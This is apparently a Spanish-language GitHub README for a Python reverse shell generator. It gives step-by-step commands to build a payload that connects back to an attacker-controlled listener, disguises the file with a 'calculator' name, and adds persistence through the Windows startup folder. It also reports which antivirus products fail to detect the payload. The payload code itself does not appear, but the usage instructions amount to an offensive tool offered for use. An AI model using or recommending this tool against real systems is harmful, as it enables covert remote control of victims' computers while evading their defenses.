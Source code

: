 # Reverse Shell

Proyecto que consiste en generar un payload de reverse shell en python, el cual se ejecuta en la máquina objetivo y se conecta a un servidor controlado por el atacante.

- [Reverse Shell](#reverse-shell)
  - [Requisitos](#requisitos)
  - [Instalación](#instalación)
  - [Uso](#uso)
  - [Comandos](#comandos)
  - [Ejemplos](#ejemplos)
    - [Payload](#payload)
    - [Servidor en escucha](#servidor-en-escucha)
    - [Autoexe](#autoexe)
  - [Pruebas realizadas en antivirus](#pruebas-realizadas-en-antivirus)
  - [Resultados de virustotal.com](#resultados-de-virustotalcom)
  - [Capturas](#capturas)

## Requisitos

- ![Static Badge](https://img.shields.io/badge/Python-^3.12-yellow?logo=python&logoColor=white)

## Instalación

Clona el repositorio

```bash
git clone https://github.com/epmyas2022/reverse_shell.git
```

Entra al directorio del proyecto

```bash
cd reverse_shell
```

Instala las dependencias

```bash
pip install -r requirements.txt
```

## Uso

```bash
python reverse_shell.py
```

## Comandos

- `help`: Muestra la lista de comandos disponibles.
- `generate`: Genera un payload de reverse shell en python.
- `execute`: Inicia un servidor que escucha las conexiones de los payloads generados.
- `autoexe`: Genera un exe que creara una copia del payload en la carpeta de inicio de Windows.
- `set`: Establece el valor de una variable.
- `exit`: Salir del programa.

## Ejemplos

Generar un payload de reverse shell especificando la dirección IP y el puerto del servidor

El siguiente comando setea la direccion IP del payload:

### Payload

```bash
set generate.lhost 10.0.0.20
```

El siguiente comando setea el puerto del payload:

```bash
set generate.lport 4444
```

El siguiente comando genera el payload:

```bash
generate
```

![Reverse Shell Generate Command](./images/payload.png)

Los payloads generados se guardan en la carpeta raíz del proyecto. con el siguiente nombre: `calculator-{timestamp}`

### Servidor en escucha

Iniciar el servidor que escucha las conexiones de los payloads generados

El siguiente comando setea el puerto del servidor:

```bash
set session.lport 4444
```

El siguient comando setea el host del servidor:

```bash
set session.lhost 10.0.0.20
```

El siguiente comando inicia el servidor:

```bash
execute
```

![Reverse Shell Execute Command](./images/execute.png)

Para detener la escucha del servidor, presiona `Ctrl + C`

Para salir de la sesión, ejecuta el comando `exit`

### Autoexe

Generar un autoexe creara una copia del payload en la carpeta de inicio de Windows.

Antes que nada, se debe generar un payload.

El siguiente comando setea el nombre del archivo:

```bash
set windows.autoexe.path <nombre_del_payload>
```

El siguiente comando genera el autoexe:

```bash
autoexe
```

![Reverse Shell Autoexe Command](./images/autoexe.png)

## Pruebas realizadas en antivirus

✅ = No detectado
❌ = Detectado

- Windows Defender [✅]
- Avast [✅]
- ESETNOD32 [✅]
- McAfee [✅]
- Bitdefender [✅]
- Bkav Pro [❌]
- SecureAge [❌]
- Kaspersky [❌]
- Skyhigh (SWG) [❌]

## Resultados de virustotal.com

- [Payload]("https://www.virustotal.com/gui/file/a3529b34abafcf1bb4ae8bebb464d7a79a22ea1bd9a14dfdd53072edd2d28911")
- [Autoexe]("https://www.virustotal.com/gui/file/9988d8ba90ad03359e79be815032e616d1f76432a12208c659b1cd2a8a719f7b/detection")

## Capturas

![Reverse Shell](./images/image.png)
